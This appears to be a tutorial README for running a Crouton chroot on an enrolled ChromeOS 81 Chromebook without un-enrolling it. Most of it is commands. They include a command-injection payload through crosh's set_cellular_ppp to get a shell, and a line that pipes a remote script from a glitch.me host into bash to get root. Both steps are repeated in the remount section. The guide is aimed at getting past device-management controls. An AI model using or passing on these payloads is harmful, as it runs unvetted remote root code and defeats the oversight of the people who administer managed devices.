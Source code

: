# Adventures in Chroots

This post is a follow-up to "Privelige escalation without un-enrolling". If you haven't read it yet, then you totally should.

After discovering how to run executables off of a USB drive mounted with `exec`, I wanted to get Crouton running, to allow for a graphical environment to run piggybacking off of ChromeOS's X server. After a bit of experimenting, I managed to get everything running as expected, and I'll walk you through the steps below. 

First off, downgrade to ChromeOS 81. It's required for this whole thing to work. Open up crosh and use the `set_cellular_ppp` exploit to get to bash:

```
set_cellular_ppp \';bash;exit;\'
```

Now, we get root...

```bash
bash <(curl https://hostz.glitch.me/80.sh)
```

And after a few seconds, you should be dropped into an SSH session pointing to `localhost`. Plugin your USB drive or SD card (ext4 formatted) now. Find it (it's usually /dev/sda) with `fdisk`:

```bash
fdisk -l
```

Now, we need to create a mount point, and we'll do so in the only mounted filesystem that is read-write: `chronos`'s home directory.

```bash
mkdir -p /home/chronos/usbdrv
```

And we mount the USB drive (replacing /dev/sdX with the block device that points to your USB drive/SD card):

```bash
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv
cd /home/chronos/usbdrv
ls # Verify that the files were mounted.
```
Now we need to download the git repo:

```bash
curl https://github.com/rainestorme/crouton/archive/refs/tags/downloadlink.tar.gz -o crouton.tar.gz
tar -xvf crouton.tar.gz
mv crouton-downloadlink crouton
rm crouton.tar.gz
cd crouton
```

Now that we have the crouton source, we need to add the `host-bin` directory to the `$PATH`. 

```bash
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
```

To install a chroot, we need to also download the crouton installer (I know, It's tedious).

```bash
curl https://raw.githubusercontent.com/dnschneid/crouton/master/installer/crouton -o crouton
chmod +x crouton
```

Finally, we need to install a chroot. A list of targets is available on [here](https://github.com/rainestorme/crouton/tree/master/targets). I personally reccommend `xfce` for lower-end Chromebooks, so that's what I went with in this tutorial.

```bash
./crouton -t xfce -p ./
```

This command will take a bit (for me it took 50 minutes on my `lars` Chromebook) and will eventually prompt you for a username and password. Set them (the password won't be shown in the terminal) and wait for the rest of the process to finish.

Now that you've installed the chroot, you can run `startxfce4` (in the case that you chose an xfce desktop environment) and it will mount and unmount the required filesystems automatically.

In the case that you restarted your terminal at any point after installing the chroot, or you rebooted your chromebook/unplugged the USB drive then you can run the following commands to remount the drive and add the scripts back to your `$PATH`:

```bash
# In crosh
set_cellular_ppp \';bash;exit;\'
# In bash
bash <(curl https://hostz.glitch.me/80.sh)
# In the root SSH prompt
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Remember to replace /dev/sdX, use "fdisk -l" to find your drive
cd /home/chronos/usbdrv
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
startxfce4
```
